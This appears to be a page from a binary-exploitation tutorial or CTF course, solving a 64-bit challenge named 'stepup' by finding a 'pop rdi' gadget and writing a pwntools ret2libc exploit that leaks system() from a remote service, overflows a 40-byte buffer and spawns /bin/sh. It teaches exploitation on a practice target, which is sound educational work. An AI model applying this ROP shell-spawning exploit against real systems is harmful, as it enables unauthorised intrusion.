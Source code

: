 ```yaml
---
description: Beating ASLR again, using 64-bit this time.
---
```


# stepup

{% file src="../../.gitbook/assets/stepup.zip" %}

This binary is similar to the last one, so we'll be reusing most of the same techniques. This time, we'll need a way to pass the `/bin/sh` address into `rdi`, which will require a gadget to do this.

### Getting our Gadget

We'll do this the same way that we did it in the ROP chapter. We use `ROPgadget` or `ropper` to search for a gadget that will pop the top of the stack into `rdi`:

{% tabs %}
{% tab title="ROPgadget" %}
```bash
$ ROPgadget --binary stepup | grep "pop rdi"
0x00000000004011db : pop rdi ; ret
```
{% endtab %}

{% tab title="ropper" %}
```bash
$ ropper -f stepup --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: stepup
0x00000000004011db: pop rdi; ret; 
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

This is perfect. We'll use this gadget to pop the address of `/bin/sh` into `rdi` before calling `system()`.

### Writing the Exploit

This binary is nearly identical to the last one. We are provided the address of `system()`, so we can just use that directly. Checking `read_in`, we'll notice that it takes `40` bytes to reach the return pointer.

This is everything we need to write the exploit:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./stepup')
libc = elf.libc
p = remote('vunrotc.cole-ellis.com', 6200)

p.recvuntil(b'at: ')
leak = int(p.recvline(), 16)
libc.address = leak - libc.sym.system
log.success(f'LIBC base: {hex(libc.address)}')

g_popRdi = 0x4011db

payload = b'A' * 40
payload += p64(g_popRdi)
payload += p64(next(libc.search(b'/bin/sh')))
payload += p64(libc.sym.system)

p.sendline(payload)
p.interactive()
```
{% endcode %}

Running this gets our flag! We beat ASLR in 64-bit, which was no different than in 32-bit. The only difference is that we had to use 64-bit gadgets and addresses.
